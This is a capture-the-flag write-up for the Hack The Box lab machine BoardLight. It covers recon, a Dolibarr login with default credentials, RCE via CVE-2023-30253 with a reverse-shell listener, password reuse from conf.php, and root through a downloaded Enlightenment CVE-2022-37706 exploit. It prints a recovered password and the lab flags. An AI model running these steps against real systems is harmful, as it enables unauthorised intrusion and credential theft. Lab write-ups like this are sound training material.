# HTB - BoardLight

**IP Address:** `10.129.231.37`  
**OS:** `Linux (Ubuntu)`  
**Difficulty:** `Easy`  
**Tags:** #web #dolibarr #suid #privesc

---
## Synopsis

BoardLight is an easy Linux machine where initial enumeration reveals an Apache site that hints at a hostname. After identifying a Dolibarr CRM vhost, default credentials provide admin access, which is then used to achieve code execution via a known Dolibarr RCE (CVE-2023-30253) and obtain a shell as `www-data`. Credentials recovered from the Dolibarr configuration are reused for SSH access as `larissa`, and local enumeration of SUID binaries leads to a privilege escalation via a vulnerable Enlightenment SUID helper (CVE-2022-37706) to gain a root shell.

---
## Skills Required

- Basic Linux enumeration
- Web/vhost enumeration
- Using known CVEs with minimal adaptation

## Skills Learned

- Identifying and exploiting Dolibarr CVE-2023-30253 as an authenticated admin
- Spotting and abusing unusual SUID binaries for local privilege escalation (Enlightenment CVE-2022-37706)

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.231.37
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.231.37 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80 10.129.231.37 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 |
| 80/tcp | HTTP | Apache httpd 2.4.41 (Ubuntu) |

---
## 2. Service Enumeration

### 2.1 HTTP Enumeration (landing page)

With HTTP exposed on port 80, I fingerprinted the site to look for technology hints and any hostnames/domains referenced in page content:

```bash
whatweb http://10.129.231.37
```



The output contained a `board.htb` hint, so I mapped it locally:

```bash
echo "10.129.231.37 board.htb" | sudo tee -a /etc/hosts
```



---
### 2.2 Content/VHost Discovery

The landing page itself looked mostly static, so I ran content discovery to see if any additional paths were exposed:

```bash
ffuf -u http://10.129.231.37/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -ac -fc 404 -t 40
```



From here, the key pivot was identifying a CRM vhost (`crm.board.htb`) hosting the real application (Dolibarr):



---
## 3. Foothold

### 3.1 Dolibarr admin access

The `crm.board.htb` site presented a Dolibarr 17.0.0 login page. Default credentials worked, giving admin access:

**Recovered:** `admin:admin`



---
### 3.2 Authenticated RCE (CVE-2023-30253) → `www-data` shell

Since the application was Dolibarr 17.0.0 and I had admin access, I used a CVE-2023-30253 exploit path to trigger command execution and catch a reverse shell:

```bash
python3 exploit.py http://crm.board.htb admin admin 10.10.15.206 4444
nc -lvnp 4444
```



Once connected, I confirmed I was running as the web user and started enumerating the webroot for credentials:



---
### 3.3 Credential discovery in `conf.php`

Dolibarr stores database connection settings in its configuration file. Reading it revealed plaintext DB credentials:

```bash
cd /var/www/html/crm.board.htb/htdocs/conf
cat conf.php
```



**Recovered:** `dolibarrowner:serverfun2$2023!!`

---
### 3.4 SSH pivot as `larissa`

The recovered password was reused for SSH access as `larissa`:

```bash
ssh larissa@crm.board.htb
cat ~/user.txt
```



🏁 **User flag obtained**: `ab7c93d89c67d44f0ec795b12e3a92f4`

---
## 4. Privilege Escalation

### 4.1 Baseline checks (sudo, SUID, capabilities)

I first checked for simple sudo misconfigurations:

```bash
sudo -l
```



With no sudo rights, I enumerated SUID binaries and file capabilities to find unusual privilege boundaries:

```bash
id
groups
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
```



This stood out because several Enlightenment-related helpers were installed as SUID root, including `enlightenment_sys`:

```bash
enlightenment --version 2>/dev/null | head -n 30
ls -la /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
```



---
### 4.2 Root via Enlightenment SUID helper (CVE-2022-37706)

Given the old Enlightenment version and the SUID root helper, I used a known local privilege escalation for `enlightenment_sys` (CVE-2022-37706). The target could not download from GitHub directly, so I fetched the exploit on my attacker machine and copied it over SSH:

```bash
curl -fsSL -o exploit.sh "https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/main/exploit.sh"
scp exploit.sh larissa@crm.board.htb:/tmp/exploit.sh
```



Then I executed it on the target to obtain a root shell and retrieve the root flag:

```bash
cd /tmp
chmod +x exploit.sh
bash exploit.sh
whoami
cat /root/root.txt
```



🏁 **Root flag obtained**: `ba794719088d3d8f3e46679abe7d1b26`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate HTTP and identify `board.htb` → discover `crm.board.htb` Dolibarr vhost.
2. Log into Dolibarr with default credentials (`admin:admin`) and exploit authenticated RCE (CVE-2023-30253) to get a `www-data` shell.
3. Extract DB credentials from Dolibarr `conf.php` and reuse the password to SSH as `larissa` and grab `user.txt`.
4. Enumerate SUID binaries, identify vulnerable Enlightenment SUID helper, and escalate to root via CVE-2022-37706 to read `root.txt`.

---
## Defensive Recommendations

- Upgrade Dolibarr to a patched release and restrict admin access (disable defaults, enforce strong passwords).
- Review and remove unnecessary SUID binaries; keep desktop/environment packages off server hosts where possible.
- Monitor for suspicious child processes spawned by web applications and enforce outbound egress controls where appropriate.
